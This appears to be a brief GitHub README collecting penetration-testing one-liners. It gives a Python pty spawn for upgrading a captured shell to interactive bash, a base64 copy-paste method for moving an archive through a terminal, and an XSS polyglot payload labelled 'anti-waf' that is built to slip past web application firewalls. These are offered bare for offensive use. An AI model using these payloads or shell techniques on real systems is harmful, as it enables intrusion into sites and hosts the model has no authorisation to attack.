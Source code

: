 # oneliners
Collection of handy one line things 

### ye olde pty 
python -c 'import pty; pty.spawn("/bin/bash")'

### Upload not one line
cat archive.tar.gz | base64
cat <<EOF | base64 -d > archive.tar.gz
///// paste here the base64 encoded file
EOF

## pentest 

### anti-waf
javascript:"/*'/*`/*--><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
